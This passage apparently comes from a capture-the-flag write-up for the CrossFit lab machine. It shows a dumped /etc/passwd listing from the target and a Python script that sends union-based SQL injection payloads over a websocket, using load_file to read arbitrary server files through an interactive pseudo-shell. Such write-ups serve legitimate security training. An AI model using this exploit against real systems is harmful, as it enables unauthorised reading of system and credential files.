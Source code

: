 ```
_tftp_proxy:*:108:108:tftp proxy daemon:/nonexistent:/sbin/nologin
_ftp_proxy:*:109:109:ftp proxy daemon:/nonexistent:/sbin/nologin
_sndiop:*:110:110:sndio privileged user:/var/empty:/sbin/nologin
_syspatch:*:112:112:syspatch unprivileged user:/var/empty:/sbin/nologin
_slaacd:*:115:115:SLAAC Daemon:/var/empty:/sbin/nologin
nobody:*:32767:32767:Unprivileged user:/nonexistent:/sbin/nologin
_mysql:*:502:502:MySQL Account:/nonexistent:/sbin/nologin
lucille:*:1002:1002:,,,:/home/lucille:/bin/csh
node:*:1003:1003::/home/node:/bin/ksh
_dbus:*:572:572:dbus user:/nonexistent:/sbin/nologin
_redis:*:686:686:redis account:/var/redis:/sbin/nologin
david:*:1004:1004:,,,:/home/david:/bin/csh
john:*:1005:1005::/home/john:/bin/csh
ftp:*:1006:1006:FTP:/home/ftp:/sbin/nologin
```

Adding a `read_file` function to our script we can now easily read files by prepending `read_file` in our pseudo-shell.

`inject.py`
```py
import websocket
import json
from cmd import Cmd

class Read_SQLI(Cmd):
    prompt = "sm1l3z > "

    def __init__(self):
        self.ws = websocket.WebSocket()
        self.token = ''
        Cmd.__init__(self)

    def open_connection(self):
        self.ws.connect('ws://gym.crossfit.htb/ws/')
        response = self.parse_json(self.ws.recv())
        self.token = response['token']

    def parse_json(self, data):
        if data == "ping":
            self.ws.send("pong")
            data = self.ws.recv()
        parsed = json.loads(data)
        return parsed

    def do_read_file(self, file_name):
        self.open_connection()
        payload  = '{"message":"available", "params" : '
        payload += f'''"-1 union select null, group_concat(load_file('{file_name}'))"'''
        payload += ',"token":"' + self.token + '"}'
        self.ws.send(payload)
        response = self.parse_json(self.ws.recv())
        self.ws.close()
        file_content = response['debug'][17:-1]
        print(file_content)

    def default(self, query):
        self.open_connection()
        payload  = '{"message":"available", "params" : '
        payload += f'''"-1 {query}"'''
        payload += ',"token":"' + self.token + '"}'
        self.ws.send(payload)
        response = self.parse_json(self.ws.recv())
        self.ws.close()
```